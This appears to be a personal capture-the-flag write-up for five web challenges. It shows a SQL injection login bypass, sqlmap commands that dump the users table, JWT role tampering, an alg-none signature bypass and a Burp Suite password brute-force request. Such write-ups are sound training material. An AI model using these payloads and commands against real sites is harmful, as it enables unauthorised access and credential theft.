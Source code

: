 ```yaml
---
title: 'web/GooseCTF: Animals R Us'
date: '2025-05-10'
url: 'web-goosectf-animalsrus'
summary: 'sql injection, jwts, and lot of burp suite.'
tags:
  - Web
---
```



web chal this time: not very good at web tho. or anything

logging onto the instance we have this login page

![image](/images/animal1.png)

## Animals R Us 1 - In Plain SQLight

for this chal you simply have to login as the user james. 

first, i looked around the website and checked out /login.js.
then looking at the chal title i realized it was probably sql injection so i put a random payload 
' OR 1=1 in the password, and it returned 
```
{
    "message": "Server error",
    "error": {
        "message": "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1",
        "code": "ER_PARSE_ERROR",
        "errno": 1064,
        "sql": "SELECT * FROM users WHERE username = 'james' AND BINARY password = '' OR 1=1'",
        "sqlState": "42000",
        "sqlMessage": "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1"
    }
}
```
now having the sql text, i put james' -- into the username to comment out the password part and voila. got the flag.

## Animals R Us 2 - Out of SQLight, Out of Mind

This one was also pretty easy, i used sqlmap to dump the tables in the users table.

req.txt:
```
POST /login HTTP/2
Host: kbnik11f-animals-r-us-2-out-of-sqlight-out-of-mind.chall.lilypadd.com
Cookie: theme=light; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywidXNlcm5hbWUiOiJqYW1lcyIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzQ2OTI3Mjc2LCJleHAiOjE3NDY5MzA4NzZ9.O143rfDD9MjWO4Rfuk4ymXRQjXisESjvrgjZp-3HFzA
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://kbnik11f-animals-r-us-2-out-of-sqlight-out-of-mind.chall.lilypadd.com/login
Content-Type: application/json
Origin: https://kbnik11f-animals-r-us-2-out-of-sqlight-out-of-mind.chall.lilypadd.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"INJECT_HERE","password":"a"}
```

then 
```
sqlmap -r req.txt --batch -p username --dbs
sqlmap -r req.txt --batch -p username -D web_db --tables
sqlmap -r req.txt --batch -p username -D web_db -T users --columns
sqlmap -r req.txt --batch -p username -D web_db -T users --dump
```
and you get the password.

## Animals R Us 3 - Signing Off
in here you have to gain access to /admin.

This one was also really easy. whenever I went to /admin it kicked me out, so I thought there had to be some
admin privileges my james user was missing. So i looked at my cookies and decoded my jwt token:
``` eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywidXNlcm5hbWUiOiJqYW1lcyIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzQ2OTkxOTA2LCJleHAiOjE3NDY5OTU1MDZ9.Bm4oQkxO7qpL9jUkGU8hzTXHkwAPyM_Vws48tnvQ7AQ ```

into this:
```
{
  "id": 3,
  "username": "james",
  "role": "user",
  "iat": 1746991906,
  "exp": 1746995506
}
```
I changed role to admin, set my cookie, and was able to access /admin. 

## Animals R Us 4 - Signature? None Thanks

using the jwt token from last time, i changed my username to william and tried to go to /settings but it didnt work.
I tried using burp suite to see what the server was responding with but it only redirected me to the login page. 
Looking at the chal title, i felt it had something to do with the jwt signature and somehow negating it. 

jwt header:
```
{
  "alg": "HS256",
  "typ": "JWT"
}
```
somehow getting rid of HS256 from the alg text allowed me to access settings. Did i get lucky? hell yea. I have no idea how that worked.

## Animals R Us 5 - letmein

Now we have to bruteforce jane's login password with the provided wordlist. Putting this into burpsuite with the wordlist and then setting the password to be changed was easy enough. 
looking at all the requests, find the password that doesn't return an status code of 400, and thats your password. 

should be sum like this
```
POST /login HTTP/2
Host: kbnik11f-animals-r-us-2-out-of-sqlight-out-of-mind.chall.lilypadd.com
Cookie: theme=light; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywidXNlcm5hbWUiOiJqYW1lcyIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzQ2OTI3Mjc2LCJleHAiOjE3NDY5MzA4NzZ9.O143rfDD9MjWO4Rfuk4ymXRQjXisESjvrgjZp-3HFzA
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://kbnik11f-animals-r-us-2-out-of-sqlight-out-of-mind.chall.lilypadd.com/login
Content-Type: application/json
Origin: https://kbnik11f-animals-r-us-2-out-of-sqlight-out-of-mind.chall.lilypadd.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"lucy","password":"§pwd§"}
```



In all i dont like web but at least i got all those chals done.